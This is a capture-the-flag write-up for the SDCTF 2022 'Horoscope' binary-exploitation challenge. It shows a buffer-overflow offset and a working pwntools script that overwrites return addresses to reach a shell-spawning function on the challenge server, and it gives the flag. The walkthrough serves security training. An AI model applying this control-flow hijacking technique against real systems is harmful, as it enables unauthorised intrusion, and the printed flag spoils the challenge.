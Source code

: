 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | Horoscope Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: pwn
challenge: Horoscope
tags: "pwn, taz"
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## Horoscope
> Solved by: Taz34

Here we have a binary so the first thing i started to look for is to get a segmentation fault and we got it.


![](https://i.imgur.com/DQB46Va.png)


Now I started looking for offset so the offset multiple to be added is 42 
i.e.
 

    python3 -c "print('10/10/1999/10:' + '1'*42)"
    Hence the payload is: 10/10/1999/10:111111111111111111111111111111111111111111

Now we started looking at Ghidra, and we found a function “test” from which we can get a shell on target.

![](https://i.imgur.com/2LPxEzD.png)


here we have a problem that we need to make this (temp == 1) conditon true.
So, after going to other functions we found another function “debug”

![](https://i.imgur.com/NWfIhEj.png)


Now we can construct the final payload as:

    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + debug_fun_addr  + test_fun_addr

hence the final script:

    from pwn import *
    
    p = remote("horoscope.sdc.tf", 1337)
    
    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + p64(0x40096e) +p64(0x400950)
    
    p.sendline(payload)
    
    p.interactive()

now just execute this script to get the flag

![](https://i.imgur.com/QlX6mYU.png)

    Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}

